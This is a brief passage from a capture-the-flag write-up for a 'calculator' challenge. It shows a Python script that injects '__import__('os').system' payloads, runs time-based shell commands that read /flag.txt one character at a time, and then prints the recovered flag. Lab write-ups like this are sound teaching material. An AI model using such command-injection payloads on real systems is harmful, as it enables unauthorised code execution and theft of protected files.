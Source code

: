 ```py
def brute_flag(flag_length):
    print("Flag: ", end="", flush=True)
    for i in range(1, flag_length + 1):
        for c in range(32, 127):
            cmd = "if [ $(cat /flag.txt | cut -c {}) == {} ]; then sleep {}; fi".format(i, chr(c), timeout)
            payload = "__import__('os').system('{}')".format(cmd)
            if send_req(payload):
                print("{}".format(chr(c)), end="", flush=True)
    print()

flag_length = brute_len()
brute_flag(flag_length)
```

Running the script:
```bash
$ python3 calculator.py
Flag Length: 39
Flag: rarctf{0v3rk1ll_4s_4_s3rv1c3_3fca0faa}
```

Flag: `rarctf{0v3rk1ll_4s_4_s3rv1c3_3fca0faa}`
